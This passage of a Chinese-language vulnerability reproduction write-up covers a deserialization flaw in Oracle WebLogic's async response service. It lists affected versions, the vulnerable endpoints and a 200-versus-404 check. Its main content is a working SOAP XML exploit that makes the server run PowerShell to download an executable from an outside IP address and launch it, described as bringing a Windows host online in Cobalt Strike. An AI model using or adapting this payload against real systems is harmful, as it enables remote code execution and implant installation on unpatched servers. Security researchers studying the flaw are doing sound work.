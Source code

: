 ```php
bea_wls9_async_response.war
wsat.war
```

##### 影响版本

```php
10.3.*
12.1.3
```

##### 验证漏洞

访问 /\_async/AsyncResponseService，返回200则存在，404则不存在

查看web.xml得知受影响的url如下：

访问路径为：

```php
C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\WEB-INF
```

![image-20210810143210331](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bd52acd4de26878a70d6191c5041de53d8bd4504.png)

```php
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
/_async/AsyncResponseServiceSoap12
/_async/AsyncResponseServiceSoap12Jms
/_async/AsyncResponseServiceSoap12Https
```

##### 漏洞复现

访问该url，回显如下，说明存在漏洞

![image-20210810142738800](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-219282e563e3b9cb2bc3c38496fff7aef5d75996.png)

win上线cs的poc如下，这里exe用的是上面生成的：

```php
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>powershell</string>
</void>
<void index="1">
<string>-Command</string>
</void>
<void index="2">
<string>(new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc1.exe','zcc1.exe');start-process zcc1.exe</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header><soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```